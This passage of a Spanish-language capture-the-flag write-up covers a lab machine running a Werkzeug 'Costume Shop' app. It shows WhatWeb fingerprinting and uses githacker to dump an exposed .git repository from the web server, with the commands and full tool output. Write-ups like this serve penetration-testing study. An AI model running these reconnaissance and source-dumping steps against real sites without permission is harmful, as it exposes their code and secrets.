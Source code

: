 ### WhatWeb

Comenzaremos reconociendo que tecnología está usando la web:

```bash wrap=false
❯ whatweb http://10.10.11.134
http://10.10.11.134 [403 Forbidden] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.134], Title[403 Forbidden]
❯ whatweb http://10.10.11.134:5000
http://10.10.11.134:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.0.2 Python/3.8.10], IP[10.10.11.134], PasswordField[password], Python[3.8.10], Script, Title[Costume Shop], Werkzeug[2.0.2]
```

### .git Leak (githacker)

Si nos fijamos en el reporte de nmap, vemos esto:

```bash wrap=false
| http-git: 
|   10.10.11.134:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Updating Tracking API  # Please enter the commit message for...
```

Vamos a ver que podemos descargar con la herramienta `githacker`:

```bash wrap=false
❯ githacker --url http://10.10.11.134/.git/ --output-folder git
2025-10-21 23:26:21 INFO 1 urls to be exploited
2025-10-21 23:26:21 INFO Exploiting http://10.10.11.134/.git/ into git/53c479b286e10d4cd9e0838a932ef696
2025-10-21 23:26:21 INFO Downloading basic files...
2025-10-21 23:26:21 INFO [73 bytes] 200 .git/description
2025-10-21 23:26:21 INFO [296 bytes] 200 .git/COMMIT_EDITMSG
2025-10-21 23:26:21 INFO [23 bytes] 200 .git/HEAD
2025-10-21 23:26:21 INFO [240 bytes] 200 .git/info/exclude
2025-10-21 23:26:21 INFO [2051 bytes] 200 .git/logs/HEAD
2025-10-21 23:26:21 INFO [225 bytes] 200 .git/index
2025-10-21 23:26:21 INFO [41 bytes] 200 .git/ORIG_HEAD
2025-10-21 23:26:22 INFO [613 bytes] 200 .git/logs/refs/heads/master
2025-10-21 23:26:23 INFO [41 bytes] 200 .git/refs/heads/master
2025-10-21 23:26:23 INFO Downloading head files...
2025-10-21 23:26:23 INFO [164 bytes] 200 .git/objects/c5/1441640fd25e9fba42725147595b5918eba0f1
2025-10-21 23:26:23 INFO [136 bytes] 200 .git/objects/7c/f92a7a09e523c1c667d13847c9ba22464412f3
2025-10-21 23:26:23 INFO [154 bytes] 200 .git/objects/c6/22771686bd74c16ece91193d29f85b5f9ffa91
2025-10-21 23:26:23 INFO [160 bytes] 200 .git/objects/b1/0dd06d56ac760efbbb5d254ea43bf9beb56d2d
2025-10-21 23:26:23 INFO Downloading blob files...
2025-10-21 23:26:23 INFO [525 bytes] 200 .git/objects/8d/3b52e153c7d5380b183bbbb51f5d4020944630
2025-10-21 23:26:23 INFO [679 bytes] 200 .git/objects/df/dfa17ca5701b1dca5069b6c3f705a038f4361e
2025-10-21 23:26:23 INFO Running git fsck files...
2025-10-21 23:26:23 INFO [95 bytes] 200 .git/objects/b5/f4c99c772eeb629e53d284275458d75ed9a010
2025-10-21 23:26:23 INFO [95 bytes] 200 .git/objects/65/b80f62da28254f67f0bea392057fd7d2330e2d
2025-10-21 23:26:23 INFO [167 bytes] 200 .git/objects/ce/401ccecf421ff19bf43fafe8a60a0d0f0682d0
2025-10-21 23:26:23 INFO [170 bytes] 200 .git/objects/5c/52105750831385d4756111e1103957ac599d02
2025-10-21 23:26:24 INFO [64 bytes] 200 .git/objects/ab/07f7cdc7f410b8c8f848ee5674ec550ecb61ca
2025-10-21 23:26:24 INFO [63 bytes] 200 .git/objects/cf/489a3776d2bf87ac32de4579e852a4dc116ce8
2025-10-21 23:26:24 INFO [527 bytes] 200 .git/objects/54/5f6fe2204336c1ea21720cbaa47572eb566e34
2025-10-21 23:26:24 INFO [582 bytes] 200 .git/objects/fe/d7ab97cf361914f688f0e4f2d3adfafd1d7dca
2025-10-21 23:26:24 INFO Cloning downloaded repo from /tmp/tmpehcjqdy3 to git/53c479b286e10d4cd9e0838a932ef696
2025-10-21 23:26:24 INFO Check it out: git/53c479b286e10d4cd9e0838a932ef696
2025-10-21 23:26:24 INFO 1 / 1 were exploited successfully
2025-10-21 23:26:24 INFO http://10.10.11.134/.git/ -> git/53c479b286e10d4cd9e0838a932ef696
```

